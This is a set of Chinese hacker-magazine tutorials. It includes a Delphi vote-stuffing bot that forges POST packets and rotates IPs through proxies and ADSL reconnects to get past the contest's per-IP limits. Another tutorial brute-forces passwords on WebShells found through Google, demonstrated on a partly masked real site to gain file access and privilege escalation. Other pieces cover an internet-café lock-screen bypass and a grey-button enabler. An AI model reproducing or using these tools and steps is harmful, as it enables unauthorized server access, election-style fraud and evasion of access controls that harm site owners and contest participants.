注意：调用时进程必须有 **SE_SHUTDOWN_NAME** 特权。下面几个函数用来查看并调用 SE_SHUTDOWN_NAME 特权，来实现关机。

```c
BOOL OpenProcessToken    // 得到进程的令牌句柄
(
    __in  HANDLE ProcessHandle,   // 要修改访问权限的进程句柄
    __in  DWORD DesiredAccess,    // 指定你要进行的操作类型（令牌对象的访问权限）
    __out PHANDLE TokenHandle     // 返回的访问令牌句柄
);
```

这里要说的是第二个参数令牌对象的访问权限。详见：  
http://msdn.microsoft.com/en-us/library/aa374905(v=VS.85).aspx

`BOOL LookupPrivilegeValue` // 查询进程的权限信息，存入第三个参数为 LUID 的结构中：

```c
(
    __in_opt LPCTSTR lpSystemName  // 所要查看的系统，本地系统直接用NULL
    __in  LPCTSTR lpName,          // 表示所要查看的特权信息的名称，本例用到SE_SHUTDOWN_NAME
    __out PLUID   lpLuid           // 用来接收所返回的，指定特权名称的信息
);
```

第二个参数特权信息详见：http://msdn.microsoft.com/en-us/library/bb530706(v=VS.85).aspx

```c
BOOL WINAPI AdjustTokenPrivileges // 修改令牌权限
(
    __in      HANDLE TokenHandle,                 // 修改特权的句柄
    __in      BOOL DisableAllPrivileges,          // 禁用所有权限标志
    __in_opt  PTOKEN_PRIVILEGES NewState,         // 新特权信息指向TOKEN_PRIVILEGES结构
    __in      DWORD BufferLength,                 // 缓冲区
    __out_opt PTOKEN_PRIVILEGES PreviousState,    // 接收被改变特权当前状态
    __out_opt PDWORD ReturnLength                 // 接收PreviousState缓冲区要求大小
);
```

第三个参数 TOKEN_PRIVILEGES 结构详见：http://msdn.microsoft.com/en-us/library/aa375202(VS.85).aspx

用彗星小助手软件查找“下线通知”窗口的标题和类名（如图2）。标题为“下线通知”，类名为“TXGuiFoundation”。

### 三、实现它

打开 VC6.0，选择“新建”，在“工程”标签中选择“Win32 Console Application”，也就是 Win32 控制台程序，“工程名”处随便取，如图3。全部代码如下：

```c
#include <windows.h>
#pragma comment(linker,"/SUBSYSTEM:WINDOWS") // 不会显示控制台窗口

void main()
{
    while(1) // 循环
    {
        ...
    }
}
```

```cpp
HWND pOp;
pOp = FindWindow("TXGuiFoundation", "下线通知"); // 查找“下线通知”窗口

if (pOp != 0) // 下线通知窗口被找到
{
    HANDLE ToHandle;
    TOKEN_PRIVILEGES tkp;

    // 打开本进程访问令牌
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &ToHandle))
    {
        // TOKEN_ADJUST_PRIVILEGES 需要启用或禁用访问令牌内的特权
        // TOKEN_QUERY 需要一个访问令牌查询

        // 查询进程的权限
        LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);

        // 修改本进程权限
        tkp.PrivilegeCount = 1;
        tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; // 特权被激活

        // 通知系统已修改
        AdjustTokenPrivileges(ToHandle, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);

        // 获得权限后关闭计算机
        ExitWindowsEx(EWX_SHUTDOWN, 0); // 关机
    }
}

Sleep(10); // 防止 CPU 转死
```


图2


图3


图4

以上函数都是查询 MSDN 得到，我英文不好翻译得可能不是很恰当。代码是不是很简单呢，接着就是调试了，在电脑登录 QQ 并运行本程序，打开手机登录该 QQ 号时你会发现电脑关机了。如图4，这是我在虚拟机测试的结果！只要肯动脑子没有什么实现不了的！

## 菜鸟小试“渊雪”暴破WebShell

年晓东

这几年在全民皆“注”的努力下，Internet 上被迅速增添了很多各具特色的 WebShell。由于网管监管不力或是 WebShell 本身的免杀和隐藏处理等原因，时间一长，竟然出现了可以使用百度或 Google 来直接搜索得到别人 WebShell 的局面，真是令人唏嘘！从我们“黑”的角度出发，我个人建议大家还是使用 Google 来搜索 WebShell 比较好（再次 BS 百度最近被央视曝光搜索结果用钱排名次的卑劣，没听说过的菜菜可以去百度一下哈）——相同的关键字会得到更为精准的结果，比如可以使用“注：请勿用于非法用途，否则后果作者概不负责”来 Google 一下，那些形如“webshell-.222,76.2xx.135”和“白痴黑客-59.36.x.x.203”之类带有 IP 且下方出现“密码：”及红色关键字的链接就是传说中的 WebShell 了（如图1），一般都能够直接点击打开。默认情况下，Google 每页的十个链接搜索结果中至少会有两三个是我们的目标 WebShell；

是否对“渊雪”这款很古老的黑客利器有印象，这可是大名鼎鼎的小榕软件代表作之一（与“流光”、“乱刃”等齐名），利用它暴力破解邮箱的套路是不是可以完全用来对付一下这样的公开 WebShell 呢？可惜“渊雪”早已停止开发了，甚至不支持 Win 7，好在可以非常流畅地运行在 XP 中。到 http://u.115.com/file/dngyhe78# 下载“渊雪_Beta_7_英文版.cxc”，http://u.115.com/file/bhq4dugz# 下载“渊雪Beta_7_中文补丁.zip”，先安装英文版再将汉化补丁复制到安装目录中，待用。因为在暴力破解过程中最为给力的莫过于所使用的字典文件了，而刚才所提到的那些比较常用的 WebShell 默认密码是不是可以派上用场了？非常简单，先到“渊雪”的安装目录（D:\Program Files\小榕软件\渊雪）中看看它的自带字典文件“Password.Dic”，都是一行一个待猜解的测试字符串（如“123456”、“admin888”）；然后依葫芦画瓢将“一些比较常用webshell的默认密码.txt”用记事本打开，手工将每行信息前半部分的“黑羽基地免杀asp大马密码”删除，只剩下“5201314”纯密码，然后另存为 Dic 文件（其实和 Txt 是没有区别的），命名为“【整理】一些比较常用webshell的默认密码.dic”，复制到“渊雪”的安装目录中。


图1


图2

当然，仅只是找到这样的一些 WebShell 链接是没有什么多大意义的，它们的存在也只能说明对应的网站被“路过”了；因为几乎所有的 WebShell 都会有登录密码保护，否则还不乱套？长时间以来，不排除一些别有用心的“大牛”对自己版权所有的 WebShell 动了手脚（比如在某个隐蔽的地方添加万能密码），这样就等于是在别人后门中又开了一道后门；那么，对于很多可以直接使用 Google 搜索到的 WebShell，我们菜鸟都能做点儿什么呢？至少，给个机会练练手、多见识一下。可是，如何做呢？现在我们在网上可以轻易就搜索到很多常用 WebShell 的默认密码信息，“一些比较常用webshell的默认密码.txt”，其中就有“黑羽基地免杀asp大马密码：5201314”和“F.S.T联盟交流群内部版!别外传哦密码：rfk!”等信息（足有一百多个），但也有很多的 WebShell 单纯从其登录界面上是看不出它到底是哪一家的哪个版本的网马，特别是对于我们这些菜鸟黑客而言，总不能一个一个地试吗？

现在来实验一下吧，目标就是 Google 出来的——http://www.sxxxxg.xxx.cn/sdwj/Manager/upimage/diy3.asp，很明显不知道是哪个前辈搞的，呵呵；直接在“Password：”后随便输入几个字符再点击后面的“Login”登录，立刻得到“SORRY，密码错误！”的提示（如图2），记住该行信息（下面有用）；如果你一下就“直捣黄龙”进入了后台的话，可以直接飘过了，呵呵。运行渊雪，将此 URL 链接复制粘贴到“Address：（地址）”后的输入框中，回车打开该 WebShell；然后切换到拆分窗口模式，再按组合键 Ctrl-I 呼出相关的表单操作项，双击左下方的“password”弹出“Element.[password] Properties”窗口，选中“使用字典”复选框之后点击后面的“浏览”按钮将“【整理】一些比较常用webshell的默认密码.dic”字典文件选中，点击“确定”按钮（如图3）。然后执行“运行”-“开始/重新开始”菜单命令，渊雪会提示我们保存扫描结果，直接点击“确定”按钮即可；接着进行“选择标记”，这是要告诉渊雪碰到猜解错误时及时进行下一次猜解，将之前在浏览器中进行尝试登录时返回的“ＳＯＲＲＹ，密码错误”信息从“按以下条件选择提交标记（错误标记）:”中复制并粘贴到“错误标记:”后的输入框（如图4），点击“确定”按钮。

最终的结果，显示“password=123”（如图5）。直接双击这条扫描记录，渊雪马上就打开了这个 WebShell（如图6），从“文件管理”到“提权”和网站硬盘的浏览等操作全部呈现在眼前，实验宣告成功！


图3


图5


图4


图6

一切准备工作都已经 OK 了，渊雪终于开工了，最右侧显示的是依次读取我们自定义字典中的各行密码，同样在左下方也有相关的密码尝试提示。经过一段时间的暴力猜解，渊雪终于有了

> （文中涉及的软件及源代码本期光盘已收录）

### 菜鸟也能造利器之刷票工具自打造

少佐

### 起因：

离开X档案3年，也离开了电脑3年。刚回来就在网上一个朋友求我帮忙，他参加了当地市里的一个选秀活动，这个活动有一个环节是网上投票。而且这个投票的成绩占选手总成绩的30%。他想在这个环节能多来几票，让自己有希望夺冠。求我帮忙刷票，我一口答应了。于是就有了本文。本文意在教叉子们如何用 Delphi 7 进行刷票类软件的编写，和数据包发送方面的知识，但是我又不能给我朋友惹麻烦，为了保护我朋友的隐私，我将文中敏感的信息都抹去了。

### 开动：

刷票，当然是写个程序，让它自动给我的朋友投票啦。那具体的实现过程是怎么样的呢？这里叉子们就要注意一下啦，我现在要介绍的是编写这类工具的一般步骤。具体过程如图1。

按照图中步骤，首先我们来分析这个页面；这个页面的投票方法是这样的：根据网站的投票说明，一个 IP 只可以投 10 票。在你要投票的人的照片下面选中他，每次需选择两名候选人（这表示给我朋友刷票就必然也要给别人刷票），然后点击页面下方的“点击投票”。经过我事后实验发现，不止有页面上写的这些规定，不同的 IP 在两分钟内同时给同一个人投票，只有一个 IP 的票会有效地被记录。也就是说，无论你多少个 IP，两分钟之内，一个人只能接受五票（感觉有点小变态）。投票的页面如图2。


图1


图2

为了看明白页面，就看页面的源文件，发现这个按钮是个“submit”按钮。

```html
<input type="submit" name="Submit1" value="点击投票">
```

这样，我们就可以用自动提交表单的方法来刷票了。但是这种方法效率不高，而且如果你的机器配置不高的话，提交表单极其容易把机器弄得卡。所以我们选择发送数据包的方法来刷票。先拿出我们的利器“WSExplorer”，这是一个 Windows 下捕获数据包的工具。打开工具，找到浏览器的进程，双击它，就会在右侧的窗口中显示捕获到的数据了。现在回到投票页面，选中我朋友和随便一个人后，点击投票。这时“WSExplorer”里就捕获到数据啦。这里有的叉子就会说了：“天啊，这么多的数据包，我们要看哪个啊？”不用着急，让我来教大家一个技巧，我们可以看点击投票之后，距离我们最近的 GET 或 POST 数据包（一般是 POST），其特点是这个数据包中有你要投票人的信息。例如在图3中，大家可以看到，我找到了一个 POST 包，里面有我朋友的“UserNo”，还有我同时选择的别人的“UserNo”，而且号码和我朋友还有那个人的参赛号码是一样的。


图3

这样我们就确定就是这个包啦。这个包里有很多的信息，至于有什么信息，我们一点也不用关心。接下来拿出我们今天的主角——Delphi7，开始编写程序。

这个程序的具体构思是这样的，不用管它数据包中有什么，直接按照数据包的格式构造一个数据包，然后发送到服务器的对应端口就好。这样的方式有个好处就是，不用分析数据包，而且出错率也相对较低。

打开 Delphi7，文件--新建--应用程序，来新建一个应用程序，在程序窗口上，放上如图4中的控件。一个 Button1，用来开始和暂停刷票。Label1，用于显示“已经刷了X票”，Label2，用于显示刷的票数。


图4

程序的办法是，点击 Button1 后，判断是否是第一次点击。如果是则建立一个循环发送我们构造的数据包的线程。如果不是则停止线程，停止发送数据包。之所以建立线程，是因为在这种程序中建立线程一个是不会因为循环太快而假死，另外也比较节省系统资源。但是这里有一个问题：一次要给两个人投票，而且如果我每次都给同样的两个人投票的话，那我朋友增加的票数不就和那个人一样啦，怎么办呢？可以这样啊：每次都换一个人投票，这样的话不就给别人投得少，给我朋友投得多了么。代码的每一句我都加了注释，意在让编程初学者明白我都在做什么，为什么要这样编，大家注意好好看，尤其注意看程序的思想。当然啦，程序运行后，我们首先要声明程序运行中要用到的全局变量，在程序的“Var”部分添加：

```pascal
MWsaData: TWSAData; // 声明一个TWSAData指针，用于存放WSAStartup函数返回的Winsock库的版本信息
MSocket: TSocket;   // 创建TCP套接字的句柄
```

MRemoteAddr: TSockAddr; //用于保存连接相关参数的结构

MSendData: PChar; //用于指向要发送的数据的指针

MRecvData: PChar; //用于指向接收到的数据的指针。PChar 是个指针类型，指向 #0 结尾的字符串。

Mid: DWORD; //线程的 ID，没有的话，建立不了线程

MThread: THandle; //线程的句柄，程序里没有它也行。这里有，只是为了我们第二次点击按钮的时候能够停止线程

声明完变量后，首先我们来编写线程部分的代码，如下：

```pascal
procedure SendPack(); //自己定义一个线程过程，名字：SendPack
var
  i, j: Integer; //声明线程中要用的变量
  Mstrlist: TStringList; //声明一个 TStringList
begin
  Mstrlist := TStringList.Create; //建立字符串表
  Mstrlist.Clear;
  Mstrlist.Add('001');
  Mstrlist.Add('002');
  Mstrlist.Add('003');
  Mstrlist.Add('004');
  Mstrlist.Add('005');

  WSAStartup(MAKEWORD(2,2), MwsaData); //初始化 WinSock

  MSocket := socket(AF_INET, SOCK_STREAM, 0);
  if (MSocket = INVALID_SOCKET) then
  begin
    ShowMessage('创建套接字出错');
    WSACleanup();
    Form1.Button1.Caption := '给我开刷';
    Exit; //退出本过程
  end;

  ZeroMemory(@MRemoteAddr, SizeOf(MRemoteAddr)); //清空 MRemoteAddr
  MRemoteAddr.sin_family := AF_INET;
  MRemoteAddr.sin_addr.S_addr := inet_addr('...'); //目标服务 IP
  MRemoteAddr.sin_port := htons(80); //服务端口

  if (connect(MSocket, @MRemoteAddr, SizeOf(MRemoteAddr)) = -1) then
  begin
    ShowMessage('连接服务器出错');
    closesocket(MSocket);
    WSACleanup();
    Form1.Button1.Caption := '给我开刷';
    Exit;
  end;

  GetMem(MSendData, 4096);
  GetMem(MRecvData, 10240);

  j := 0;
  while True do
  begin
    for i := 0 to 4 do
    begin
      ZeroMemory(MSendData, 4096);
      ZeroMemory(MRecvData, 10240);

      StrPCopy(MSendData,
        'POST /abc/abc/abc.asp HTTP/1.1' + #13#10 +
        'Host: ...' + #13#10 +
        'User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:5.0) Gecko/20100101 Firefox/5.0' + #13#10 +
        'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + #13#10 +
        'Accept-Language: zh-cn,zh;q=0.5' + #13#10 +
        'Accept-Encoding: gzip, deflate' + #13#10 +
        'Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7' + #13#10 +
        'Connection: keep-alive' + #13#10 +
        'Referer: http://www.abc/abc/abc/' + #13#10 +
        'Content-Type: application/x-www-form-urlencoded' + #13#10 +
        'Content-Length: 83' + #13#10 +
        #13#10 + //数据包里这里空了一行，别忘记了
        //注意这里，在 for 循环里，从 0 到 4，就将 UserNo 从 TStringList 里第 0 行到第 4 行依次取出加在这里，构成不同的数据包，给不同的人投票。
        'UserNo=006&UserNo=' + Mstrlist.Strings[i] + '&act=do&Submit=%B5%E3%B8%F7%C%D%B6%C6%B1%E3');

      try
        send(MSocket, MSendData^, Length(MSendData), 0);   //发送数据
        recv(MSocket, MRecvData^, 10240, 0);               //接收数据
        StrPas(MRecvData); //因为接收到的数据是 PChar 类型，所以转换为 String 类型方便进一步处理
      except
        ShowMessage('发送或接收数据失败，请检查网络！');
        Form1.Button1.Click;
      end;

      //如果接收到的数据包中有“200 OK”的字样（图3中的第8个数据包就是接收到的），则代表投票成功，投票计数累加1。
      //在 MRecvData 里的第几个位置，所以我们只要判断这个位置的数是不是大于0，就知道这里是否含有这个字符串了。
      if Pos('200 OK', MRecvData) > 0 then
      begin
        j := j + 1;
        Form1.Label2.Caption := IntToStr(j);
      end;

      Sleep(120000); //暂停 120000 毫秒，也就是两分钟后继续 while 循环
    end;
  end;
end;
```

好了，到这里投票线程部分的代码写完啦。回头来看点击我们的“Button1”后会发生什么吧。双击窗口上的 Button1 控件，添加如下代码：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
//程序响应点击按钮事件
begin
  if Button1.Caption = '给我开刷' then //如果按钮标题是“给我开刷”，说明是第一次点击按钮
  begin
    Button1.Caption := '行了别刷了';
    MThread := BeginThread(nil, 0, @SendPack, nil, 0, Mid); //建立刷票线程
  end
  else //如果标题不是“给我开刷”，说明不是第一次点击按钮。若线程里什么东西出错的话，点击按钮，这里按钮的标题肯定不是“给我开刷”，所以它就会自动执行下面的代码：
  begin
    TerminateThread(MThread, 0);   //结束线程
    FreeMem(MSendData);
    FreeMem(MRecvData);            //释放 PChar 变量
    closesocket(MSocket);          //关闭套接字
    WSACleanup();                  //释放 WinSock 库
    //资源会一直占着
    Form1.Button1.Caption := '给我开刷';
  end;
end;
```

这样就能刷票啦。但是还有一个问题，IP 呢？一个 IP 只能投 10 票，这表示这个程序只能循环一次，再循环，投票也不会被记录了啊。嘿嘿，这个不用急，我们可以用 HTTP 代理啊。在“while”循环里每循环 1 次就换一个 HTTP 代理……


图5

怎么办呢？哈哈，聪明的叉子可能已经想到了，还是抓包发送。抓 IE 里连接和断开的包，在“while”循环里添加上这段发包。

不过大家注意一下我图中的数据包，我画红框的地方，“GET”提交的网址里有一串 UTF-8 编码后的东西……下载地址就是“Http://数据包中的 Host 部分/GET 后面的部分”。

例如我这里就是 Http://192.168.1.1:4900/userRpm/StatusRpm.htm。用记事本打开下载回来的文件，搜索这个 URL 问号后的部分东西，你就知道那两个汉字到底是什么啦，也就是图7中我选中的地方。


图6

```text
location.href='/userRpm/StatusRpm.htm?...';
function doDisConnect(n)
location.href='/userRpm/StatusRpm.htm?...';
function doRenew(n)
location.href='/userRpm/StatusRpm.htm?...';
```

图7

还有，数据包中“Authorization”部分的值是不能告诉别人的，它是你登录路由器用户名和密码的 BASE64 加密码……最后就编写断开和连接 ADSL 的代码吧，当然线程里代码的次序还是要改一改的。

## 结束；

可以说，这个程序还是比较简单的；我从分析页面到开始刷票，用了不到 20 分钟就搞定了。最后的结果，当然是好的啦……


图8

本人菜鸟，高手勿笑。

> （文中涉及的软件及代码本期光盘已收录）

## 灰色按钮的秘密，VB打造灰色按钮克星

相信大家都遇到这样一个情况：好不容易找到一款急需的软件，可是按钮或选项上的灰色状态却让人蛋疼不已（如图1），被限制的按钮伤不起啊……

遇到了这种情况，相信有经验的读者都会想到：“上灰色按钮克星”。这的确是一个很实用的办法，但工具始终是别人编写的，各位是否想自己也来尝试编写一款“灰色按钮克星”呢？下面我就教大家来编写一款属于我们自己的“灰色按钮克星”。

首先，给大家讲解一下灰色按钮的形成原理和破解原理。其实灰色按钮产生的原因是一个条件问题，这个条件如果得不到满足，按钮和选项之类的控件就呈现出不可用状态，也就是所谓的“灰色按钮”。当条件得到满足时，控件的锁定状态也就自然解除。


而“灰色按钮克星”的运行原理实际上就是通过：满足、跳过和欺骗等手段来突破程序中的条件检测代码，从而达到按钮等控件的激活。下面我就教大家用 VB 编写一款属于我们自己的“灰色按钮克星”（如图2）。


首先打开 Visual Basic 6.0，新建一个“标准 EXE 工程”。我们需要用到 1 个“Label”控件、1 个“List”控件和 3 个“Command”控件，把这几个控件拖到窗体上设计好大小尺寸后开始分别写入代码。

我们先对它打开外部程序并传递窗口句柄的部分进行声明，代码如下：

```vb
Dim window, child As Long
Private Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (...)
    lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, _
    ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long
```

以上代码的意思是调用“ShellExecute”函数来打开外部程序并传递窗口的句柄值，也就是“灰色按钮克星”所用显示的窗口句柄，我们使用了“List”控件来显示（如图3）。

接下来我们分别对 3 个“Command”控件依次进行声明，为了方便大家理解，我把代码分成 3 段写入。

首先是“Command1”也就是“激活按钮”，双击它进行声明，代码如下：

```vb
Private Sub Command1_Click()
    Timer1.Enabled = True
    Command1.Enabled = False
    Command2.Enabled = True
End Sub
```

以上代码的意思是：按下“Command1”（激活按钮）后，“Timer1”（时钟）控件开始工作，“Command1”（激活按钮）功能关闭，打开“Command2”（停止激活）的功能。

我们还要对“Command1”（激活按钮）进行一个外部声明，代码如下：

```vb
Private Sub Command1_MouseMove(Button As Integer, Shift As Integer, x As Single, y As Single)
    If GetForegroundWindow = Me.Hwnd Then Command1.SetFocus
End Sub
```

这段代码的意思是：用鼠标按下“Command1”（激活按钮）后，打开突出窗口，把“Command1”（激活按钮）设置为特定状态，也就是灰色。

下面我们对“Command2”也就是“停止激活”进行声明，代码如下：

```vb
Private Sub Command2_Click()
    Timer1.Enabled = False
    Command1.Enabled = True
    Command2.Enabled = False
    ...
End Sub
```

以上代码的意思与“Command1”（激活按钮）类似，代码意思是：按下“Command2”（停止激活）后，“Timer1”（时钟）控件停止工作，“Command2”（停止激活）功能关闭，打开“Command1”（激活按钮）的功能。

接下来我们依旧和“Command1”控件一样，对“Command2”控件进行一个外部声明，代码如下：

```vb
Private Sub Command2_MouseMove(Button As Integer, Shift As Integer, x As Single, y As Single)
    If GetForegroundWindow = Me.Hwnd Then Command2.SetFocus
End Sub
```

相信大家都知道这段代码的意思了吧？它的意思是：用鼠标按下“Command2”（停止激活）后，打开突出窗口，把“Command2”（停止激活）设置为特定状态，也就是灰色。

最后我们对“Command3”（退出程序）控件进行声明，代码如下：

```vb
Private Sub Command3_Click()
    Timer1.Enabled = False
    End
End Sub
```

代码的意思是：“Timer1”（时钟）控件停止工作，并关闭程序。

我们依旧对它进行一个外部声明，作用和上面的两个按钮一样，代码如下：

```vb
Private Sub Command3_MouseMove(Button As Integer, Shift As Integer, x As Single, y As Single)
    If GetForegroundWindow = Me.Hwnd Then Command3.SetFocus
End Sub
```

完成了“Command”控件的声明后，我们对窗体进行一个声明，代码如下：

```vb
Private Sub Form_Load()
    SetWindowPos Me.Hwnd, HWND_TOPMOST, 0, 0, 0, 0, 1
End Sub
```

这段代码的意思是将本程序的窗体放置在最顶，窗口的顶边界坐标设置为：0, 0, 0, 0, 1。

下面我们双击“Timer1”（时钟）控件进行声明，代码如下：

```vb
Private Sub Timer1_Timer()
    Dim oldW As Long
    Dim temp As String * 50
    oldW = window
    window = GetForegroundWindow
    If oldW = window Then Exit Sub
    If window = Me.Hwnd Then Exit Sub
    GetWindowText window, temp, 50
    iCount = iCount + 1
    List1.Clear
    window = EnumChildWindows(window, AddressOf WndEnumChildProc, List1)
End Sub
```

以上代码的主要意思是：将窗口也就是“oldW”设置为突出，每执行这一语句时，iCount 都在原来的基础上加 1。“Timer1”（时钟）控件关闭时，清除 List 控件的显示内容。

到这里，我们也就完成了窗体控件的全部声明，接下来我们为窗体添加一个模块。全部代码如下：

```vb
Public Declare Function ChildWindowFromPoint Lib "user32" (...)
Public Declare Function SendMessage Lib "user32" Alias "SendMessageA" (...)
Public Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (...)
Public Declare Function GetActiveWindow Lib "user32" () As Long
Public Declare Function EnumChildWindows Lib "user32" (...)
Public Declare Function GetClassName Lib "user32" Alias "GetClassNameA" (...)
Public Declare Function IsWindowEnabled Lib "user32" (...)
Public Declare Function EnableWindow Lib "user32" (...)
```

```vb
As Long
Public Declare Function SetWindowPos Lib "user32" (ByVal hwnd As Long, ByVal hwndInsertAfter As Long, ByVal x As Long, ByVal y As Long, ByVal cx As Long, ByVal cy As Long, ByVal wFlags As Long) As Long

Public Declare Function GetForegroundWindow Lib "user32" () As Long

Public Const HWND_TOPMOST = -1

Public icount As Integer
Function GetText(lhwnd As Long) As String
    Dim Textlen As Long
    Dim Text As String

    Textlen = SendMessage(lhwnd, WM_GETTEXTLENGTH, 0, 0)
    If Textlen = 0 Then
        GetText = "(No text)"
        Exit Function
    End If
    Textlen = Textlen + 1
    Text = Space$(Textlen)
    Textlen = SendMessage(lhwnd, WM_GETTEXT, Textlen, ByVal Text)
    GetText = Left$(Text, Textlen)
End Function

Public Function WndEnumChildProc(ByVal hwnd As Long, ByVal lParam As ListBox) As Long
    Dim bRet As Long
    Dim myStr As String * 50
    bRet = GetClassName(hwnd, myStr, 50)

If IsWindowEnabled(hwnd) = 0 Then EnableWindow hwnd, 1

lParam.AddItem Str$(hwnd) & ":" & Left(myStr, 20) & ":" & GetText(hwnd)
icount = icount + 1

WndEnumChildProc = 1
End Function
```

这个模块的作用是对各个函数的功能进行描述，获取窗体的位置。并通过实现程序条件突破灰色按钮，从而解除程序被限制使用的功能。

到这里，我们的“灰色按钮克星”也就完成了。选择“文件”-“生成工程”来生成文件。下面我们来测试下它的效果：打开“灰色按钮克星”，选择“激活按钮”，再点击一下程序上的灰色按钮。怎么样？效果出来了吧？（如图4）

图4

值得一提的是：现在很多程序员在开发程序时，就在程序中写入了防止灰色按钮被激活的代码；所以“灰色按钮克星”这类程序还需要不断地去完善，有兴趣的读者可以深入地研究一下。

（文中涉及的源代码本期光盘已收录）

## 用名单彻底隐藏系统—I tell you

其实写这篇文章是有原因的，就是我家来了小孩子，我把电脑让给他玩，然后我的电脑的设置全部被修改了，所以我才写了这篇文章。

### 1、最基本的方法——普通的文件隐藏方法

在要隐藏的文件上点右键，点击属性，在属性那里有隐藏，点击后确定，文件“唰”的一下就不见了。如图1：

不过这个方法实现的前提是在“文件夹选项”里面设置“不显示隐藏文件及文件夹”，如图2；

但是这只能算一个“障眼法”，真正的隐藏请继续向下看。

## 2、在“回收站”中隐藏文件

这个方法是利用 Windows 下的“回收站”来隐藏文件的，当然这个“回收站”不是桌面的那一个，而是每个磁盘下的 Recycled 文件夹。如果把文件隐藏在这里，自己也看不到，但是 Recycled 文件夹是系统文件夹，需要先去掉它的“只读”“隐藏”“存档”“系统”属性。GUI 界面下无法直接修改系统属性，所以要借助 CMD。

```bash
attrib C:/Recycled -a -h -r -s
attrib C:/Recycled +a +h +r +s
```

“开始”——“运行”——输入“CMD”，输入（以 C 盘 Recycled 文件夹为例）`attrib C:/Recycled -a -h -r -s` 就可以看到该文件夹，然后把文件放进去。即便回收站文件删除了，Recycled 文件夹里的文件还在。放完文件后输入 `attrib C:/Recycled +a +h +r +s` 就可以再次隐藏该文件夹。

## 3、用组策略隐藏控制面板中指定的项目

假设要隐藏控制面板中的“任务计划”和“游戏控制器”，操作方法如下：开始→运行→输入 `gpedit.msc` 并确定，启动组策略。

- 第一步，点击“用户配置”；
- 第二步，点击“管理模板”；
- 第三步，点击“控制面板”；
- 第四步，双击右边窗口中的“隐藏指定的控制面板程序”；
- 第五步，勾选“设置”选项卡里的“已启用”；
- 第六步，点击“显示”；
- 第七步，点击“添加”；
- 第八步，在添加项目输入框里输入“任务计划”（不含引号）并确定；
- 再次点击添加，输入 `joy.cpl` 并确定。

此设置将控制面板的项目文件夹从控制面板和“开始”菜单中删除。它可以删除控制面板的项目，也可以删除在系统里添加的控制面板项目。

若想隐藏某个控制面板项目，输入该项目文件名即可，如 `ncpa.cpl`（网络）。若想隐藏某个文件夹，输入该文件夹名，如“字体”。该设置只影响“开始”菜单和控制面板窗口，不会阻止用户运行控制面板项目。

注意：查找控制面板项目文件名可在 `%SystemRoot%\System32` 目录中搜索 `.cpl` 文件。可先在文件夹选项中取消“隐藏已知文件类型的扩展名”，以便看到后缀。

如果不清楚 system32 下哪个 `.cpl` 文件对应控制面板项目，可逐个双击测试，会打开相应项目，多试几个即可找到需要的 `.cpl` 文件。

## 傻瓜黑客

图6

```reg
CurrentVersion\Policies\System]  //要写入的主键值

"NoDispAppearancePage"=dword:00000001   //新建一个DWORD值为1的NoDispAppearancePage键值
"NoDispScrSavPage"=dword:00000001       //新建一个DWORD值为1的NoDispScrSavPage键值
"NoDispBackgroundPage"=dword:00000001   //新建一个DWORD值为1的NoDispBackgroundPage键值
```

## 4、隐藏驱动器盘符

磁盘驱动器是打开文件的必经之路，我们不想别人动的话就隐藏起来。打开注册表，找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 子键，在右侧新建一个名叫 “NoDrives” 的二进制值，然后输入 `FF FF FF FF`，这样就隐藏了所有的磁盘。但是不知道怎么，我没有成功。

## 5、隐藏“显示”设置选项

“显示”设置里面的东西很重要，最好不要被他们修改，所以我们要把“显示”设置隐藏起来。打开注册表，定位到键值：

图7

| DWORD值 | 对应隐藏“显示”选项 |
|---|---|
| `NoDispAppearancePage` | “外观”选项 |
| `NoDispScrSavPage` | “屏幕保护”选项 |
| `NoDispBackgroundPage` | “背景”选项 |

如图7：如果我们一个一个设置的话，很不方便，而且也不符合我们小菜的习惯，我们可以写一个 `.reg` 文件，直接写入注册表，不用每次都设置，这样才符合我们小菜的风格：

注册表文件代码

```reg
REGEDIT4              //开头命令行
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]   //要写入的主键值
"NoDispAppearancePage"=dword:00000001
"NoDispScrSavPage"=dword:00000001
"NoDispBackgroundPage"=dword:00000001
```

注意 dword 这几个字母要小写。先新建一个 TXT 文件把代码写进去，然后再把后缀改成 `.reg`。

解除隐藏的代码

```reg
REGEDIT4              //开头命令行
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]   //要写入的主键值
"NoDispAppearancePage"=-   //删除 NoDispAppearancePage 键值
"NoDispScrSavPage"=-       //删除 NoDispScrSavPage 键值
"NoDispBackgroundPage"=-   //删除 NoDispBackgroundPage 键值
```

`-` 代表删除这个键值，使用方法和上面一样。最后希望大家可以天天好心情，RP大大爆发！（文中涉及的源文件本期光盘已收录）

## 智能ABC的方法逃出漏洞再现网吧免费上网

千寻记（马莹）

Enter，看到什么了？不用登录就看到了桌面没错，如图2。可是按照以上的方法，3-20秒就会又变成登录界面（有的网吧是3秒1锁屏，有的是5秒，有的是20秒）。我们要用这3-20秒干什么呢？用虚拟桌面！追影虚拟多桌面是一款小巧的桌面辅助工具，免费使用，它可以轻易将你的桌面虚拟成多个桌面，在各个桌面上进行不同的工作，按热键即可进行任意切换，极大地方便了任务的管理。热键有 Ctrl+Left(←) 切换左桌面，Ctrl+Right(→) 切换右桌面，Ctrl+Up(↑) 切换默认桌面，Ctrl+Down(↓) 切换下桌面，Ctrl+L 显示/隐藏窗口，如图3。

